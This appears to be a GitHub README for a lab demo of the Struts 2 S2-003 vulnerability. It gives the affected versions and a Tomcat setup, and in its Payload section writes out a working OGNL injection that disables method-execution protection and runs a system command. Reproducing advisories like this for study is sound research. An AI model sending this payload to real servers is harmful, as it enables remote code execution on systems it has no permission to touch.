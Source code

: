 # S2-003 Demo

## Summary

Impact of vulnerability: Remote server context manipulation

Affected Software: `Struts 2.0.0` - `Struts 2.1.8.1`

Problem: `XWork` bypass allows `OGNL` statement execution

## Environment

Struts2 Version: `struts-2.0.11.2-all`

Server: `Tomcat 6.0.9` (Only in this version did I run payload successfully).

IDE: `idea 2020.1.1 ULTIMATE`

(Maybe you should do this.) Open the project with idea, and readd all the jars at web/WEB_INF/lib.

![{86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625]({86B8007A-5296-441A-9637-0A5AFBDF7FE6}_20200619163625.jpg)

## POC

![{15189529-560B-45EC-9D26-EA6CEA8D80CC}_20200619162417]({15189529-560B-45EC-9D26-EA6CEA8D80CC}_20200619162417.jpg)

## Payload

`?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\'calc\')')(bla)(bla)`

## Reference

- [【Struts2-命令-代码执行漏洞分析系列】S2-003和S3-005](https://xz.aliyun.com/t/2323)

- [S2-005 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-005/README.zh-cn.md)

* [S2-003](https://cwiki.apache.org/confluence/display/WW/S2-003)
